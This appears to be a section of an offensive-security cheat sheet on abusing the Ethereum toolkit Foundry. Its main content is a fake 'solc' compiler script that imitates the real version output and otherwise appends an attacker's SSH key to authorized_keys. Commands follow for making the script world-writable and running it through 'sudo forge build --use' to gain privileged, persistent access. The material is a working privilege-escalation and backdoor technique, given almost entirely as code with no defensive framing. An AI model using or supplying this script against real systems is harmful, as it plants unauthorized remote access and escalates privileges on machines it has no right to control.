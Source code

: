 # Blockchain

- [Resources](#resources)

## Table of Contents

- [Foundry](#foundry)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| Foundry | Foundry is a blazing fast, portable and modular toolkit for Ethereum application development written in Rust. | https://github.com/foundry-rs/foundry |

## Foundry

### Malicious Forge Project

#### Create Project

```c
$ forge init /PATH/TO/FOLDER/<FOLDER> --no-git --offline
```

#### Malicious Solidity Compiler (solc)

```c
#!/bin/bash
if [[ $1 == "--version" ]]; then
    echo "solc, the solidity compiler"
    echo "Version: 0.8.17+commit.8df45f5f.Linux.g++"
else
    mkdir -p /home/<USERNAME>/.ssh
    echo "<SSH_KEY>" >> /home/<USERNAME>/.ssh/authorized_keys
    chmod 700 /home/<USERNAME>/.ssh
    chmod 600 /home/<USERNAME>/.ssh/authorized_keys
fi
```

#### Set Permission

```c
$ chmod 777 solc
```

#### Execution

```c
$ sudo forge build --use /PATH/TO/FILE/solc
```
